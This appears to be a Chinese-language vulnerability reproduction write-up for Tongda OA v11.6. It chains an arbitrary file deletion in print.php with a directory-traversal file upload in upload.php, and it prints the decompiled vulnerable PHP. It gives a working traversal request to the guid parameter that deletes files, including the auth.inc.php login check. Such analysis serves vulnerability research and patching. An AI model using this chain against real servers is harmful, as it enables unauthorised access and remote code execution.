

# 通达OA v11.6 print.php 任意文件删除&RCE

## 漏洞描述

通过任意文件漏洞删除上传点包含的身份验证文件，从而造成未授权访问实现任意文件上传

## 漏洞影响

<a-checkbox checked>通达OA v11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>通达OA v11.6下载链接:https://cdndown.tongda2000.com/oa/2019/TDOA11.6.exe</a-checkbox></br>

## 漏洞复现

使用解密工具 SeayDzend(zend解密工具) 对通达OA的加密代码进行解密

解密完成后查看 `webroot\general\data_center\utils\upload.php` 文件

```php
<?php

include_once "inc/auth.inc.php";
include_once "./utils.func.php";
$HTML_PAGE_TITLE = _("上传文件");
include_once "inc/header.inc.php";
$error = "";
$msg = "";

if ($action == "upload") {
	if ($filetype == "xls") {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/templates/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/templates")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/templates");
		}

		if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $_FILES["FILE1"]["name"])) {
		}
	}
	else if ($filetype == "img") {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/images/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/images")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/images");
		}

		$s_n = $_FILES["FILE1"]["name"];

		if ($s_n[0] != "{") {
			$p = strrpos($s_n, ".");
			$s_n = CreateId() . substr($s_n, $p);
		}

		if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
		}
	}
	else {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/attachment/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/attachment")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/attachment");
		}

		if (isset($from_rep)) {
			if (($from_rep != "") && ($from_rep[0] == "{")) {
				$repkid = GetRepKIDBySendId($from_rep);

				if ($repkid != $to_rep) {
					if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
						copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
					}
				}
			}
			else {
				$arr = explode(",", $from_rep);

				for ($i = 0; $i < count($arr); $i++) {
					$p = strpos($arr[$i], ".");
					$repno = substr($arr[$i], 0, $p);
					$repkid = GetRepKIDByNo($repno);

					if ($repkid != $to_rep) {
						if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
							copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
							break;
						}
					}
				}
			}
		}
		else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
	}

	@unlink($_FILES["FILE1"]);
}
else if ($action == "unupload") {
	if ($filetype == "xls") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/attachment/" . trim($filename) . ".xls";

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
	else if ($filetype == "img") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/images/" . trim($filename);

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
	else if ($filetype == "attach") {
		$uploaddir = MYOA_ATTACH_PATH . "data_center/attachment/" . trim($filename);

		if (is_file($uploaddir)) {
			unlink($uploaddir);
		}
	}
}

echo "{";
echo "new_name:'$s_n',\n";
echo "error: '" . $error . "',\n";
echo "msg: '" . $msg . "'\n";
echo "}";
echo "<body>\r\n</body>\r\n</html>";

?>
```


在第一行包含了文件 `auth.inc.php`

```php
include_once "inc/auth.inc.php";
```




可以看到这个文件用于检验是否登录，未登录的情况无法利用这个漏洞


查看 `\webroot\module\appbuilder\assets\print.php`文件


```php
<?php

$s_tmp = __DIR__ . "/../../../../logs/appbuilder/logs";
$s_tmp .= "/" . $_GET["guid"];

if (file_exists($s_tmp)) {
	$arr_data = unserialize(file_get_contents($s_tmp));
	unlink($s_tmp);
	$s_user = $arr_data["user"];
}
else {
	echo "未知参数";
	exit();
}
```


这里可以看到 页面获取 guid参数的值
使用`file_exists函数`判断文件是否存在 并未进行校验 就执行unlink删除文件

可以本地在 `\webroot\inc` 目录创建 1.txt 文件

然后访问

```
/module/appbuilder/assets/print.php?guid=../../../webroot/inc/1.txt
```

就会删除这个 1.txt 文件，也代表可以删除 `auth.inc.php` 登录检验文件

回到 upload.php 文件进行代码审计


判断变量 `$action` 是否为 upload，再判断文件类型，如果不为 xls 和 img 则进入else分支


```php
else {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/attachment/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/attachment")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/attachment");
		}

		if (isset($from_rep)) {
			if (($from_rep != "") && ($from_rep[0] == "{")) {
				$repkid = GetRepKIDBySendId($from_rep);

				if ($repkid != $to_rep) {
					if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
						copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
					}
				}
			}
			else {
				$arr = explode(",", $from_rep);

				for ($i = 0; $i < count($arr); $i++) {
					$p = strpos($arr[$i], ".");
					$repno = substr($arr[$i], 0, $p);
					$repkid = GetRepKIDByNo($repno);

					if ($repkid != $to_rep) {
						if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
							copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
							break;
						}
					}
				}
			}
		}
		else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
	}

	@unlink($_FILES["FILE1"]);
}
```

在这段代码中，如果不存在 `$from_rep` 变量则会跳到如下代码

```php
else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
```

这里直接将 `$repkid` 变量进行拼接,也就是说可以通过目录穿越来上传恶意文件到指定目录